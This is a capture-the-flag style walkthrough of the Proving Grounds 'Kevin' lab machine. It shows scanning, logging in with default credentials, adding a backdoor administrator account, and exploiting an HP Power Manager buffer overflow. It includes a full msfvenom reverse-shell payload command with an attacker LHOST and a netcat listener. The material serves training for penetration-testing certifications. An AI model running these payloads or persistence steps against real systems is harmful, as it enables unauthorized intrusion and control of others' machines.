 ```yaml
---
title: Kevin Walkthrough - Proving Grounds
description: Walkthrough of the Kevin machine from Proving Grounds
author: Cyber Operator
date: 2024-07-25T16:55:50.565Z
tags:
  - Tags
---
```

# Kevin Walkthrough

This machine is classified as "Easy" under Proving Grounds.  It is a machine meant for practicing pentest in general or certification training, such as OSCP and others.

## 1. Nmap Scan:

We start with an Nmap version scan with the vuln script accross all ports

`nmap -sC -sV --script vuln -p- [target IP]`

![](/static/img/screenshot-2024-07-25-at-2.07.39 pm.png)

![](/static/img/screenshot-2024-07-25-at-2.08.47 pm.png)

Several things jump out, including a potential Remote Execution vulnerability.  Before going into that, let's recon the page at port 80 (GoAhead Webserver).  We start here, because it is literally an invitation to "Go Ahead":

We see a login for "HP Power Manager"

![](/static/img/screenshot-2024-07-25-at-1.05.04 pm.png)

As usual, we try to find default credentials:

![](/static/img/screenshot-2024-07-25-at-1.06.46 pm.png)

Let's try it out:

And using the admin:admin combination, we are logged in!

![](/static/img/screenshot-2024-07-25-at-1.08.05 pm.png)

While we are at it, let's create a new user in the app.  We'll make them an administrator.  This allows us to get back in the app if in the future an admin decides to actually change the default password.  We create user groot:iamgroot

![](/static/img/screenshot-2024-07-25-at-2.05.25 pm.png)



That gives us a surface to consider.  Before doing that, let's also zero in on the SMB vulnerability that we saw from the nmap scan:

![](/static/img/screenshot-2024-07-25-at-1.09.37 pm.png)

 

**NOTE: We are jumping around between potential vulnerabilities on purpose. I have not worked on this machine before and am writing the walkthrough real-time. I don't know which one of these vulnerabilities can be exploited or which one to work on first.  The thought process is what counts. In the real world (and in certification exams) there are vulnerabilities that are rabbit holes that sometimes hide the real gems.  The idea is to document everything you see as you work and see which vulnerability pays off faster/easier.  With that out of the way, let's continue!**

Let's look on searchsploit:

![](/static/img/screenshot-2024-07-25-at-1.18.34 pm.png)

Those are some exploits to consider.  To close the loop and for throroughness, let's check out more info on the  HP Power Manager.  We already discovered that it has default credentials and we also created our own user "groot".  There may be even more attack surfaces!

We do a simple Google search and find that there may be a buffer overflow vulnerability!

![](/static/img/screenshot-2024-07-25-at-2.25.48 pm.png)

And this is confirmed at exploit-db:

![](/static/img/screenshot-2024-07-25-at-2.28.06 pm.png)

Ok, that is enough exploring (at least for now).  Time to exploit!

## Exploitation:

We already saw the exploit that we found through a Google search.  Another way (without using a browser) is to use searchsploit again:

`searchsploit HP Power Manager`

![](/static/img/screenshot-2024-07-25-at-3.45.31 pm.png)

To download the exploit, we use

`searchsploit -m windows/remote/10099.py`

![](/static/img/screenshot-2024-07-25-at-3.49.23 pm.png)

Looking at the code for the exploit, we see that we need to use msvenom to generate shellcode (replace the default on the exploit file).

![](/static/img/screenshot-2024-07-25-at-3.52.28 pm.png)

Using msfvenom (and the bad string provided in the exploit code, we will use this command to generate our shellcode:

msfvenom -p windows/shell_reverse_tcp -b "\x00\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5c\x3d\x3b\x2d\x2c\x2e\x24\x25\x1a" LHOST=192.168.49.60 LPORT=4444 -e x86/alpha_mixed -f c

This generates our shellcode

![](/static/img/screenshot-2024-07-25-at-5.44.18 pm.png)

Then, we paste our shellcode into the exploit file, replacing the previous version:

![](/static/img/screenshot-2024-07-25-at-5.45.47 pm.png)

Now we are ready, so we use a new terminal window to open a netcat listener with this command:

`nc -nlvp 4444`

On a separate window, we run the exploit file (I got errors using python3, so tried python2:

![](/static/img/screenshot-2024-07-25-at-5.50.39 pm.png)

We go to our netcat listener and we got a reverse shell! The shell is privileged so escalation is not required.

![](/static/img/screenshot-2024-07-25-at-5.53.00 pm.png)

Now we look for the flag.

![](/static/img/screenshot-2024-07-25-at-5.57.44 pm.png)

All done!